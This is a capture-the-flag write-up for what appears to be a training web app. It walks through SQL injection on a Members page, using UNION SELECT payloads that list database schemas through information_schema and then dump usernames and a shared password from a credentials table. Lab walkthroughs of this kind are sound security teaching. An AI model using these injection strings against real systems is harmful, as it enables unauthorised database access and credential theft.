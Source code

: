 ### CTF

Once again, we will be using SQL injections in order to capture the flag. We are however going to go through a slightly different method. But first, got to the Members page.

We have already noticed the "db_default" contains two interesting pieces of information, "username" and "password", in a previous exploit. However, injecting a request such as:

    1 AND 1=2 UNION SELECT username, password FROM db_defaut.columns

will return the following error:

    SELECT command denied to user 'borntosec'@'localhost' for table 'columns'

Finally, a request that requires user privilege! Fear not, there is simple way of getting around this issue. Let's look at the different table schemas via

    1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables

The actual table is Member_Brute_Force.db_default, as db_default belongs to Member_Brute_Force. Simply type:

    1 AND 1=2 UNION SELECT username, password FROM Member_Brute_Force.db_default

There are merely two users, root and admin, which share the same password **shadow**. Enter one or the other logins at sign in and you've got yourself another flag.
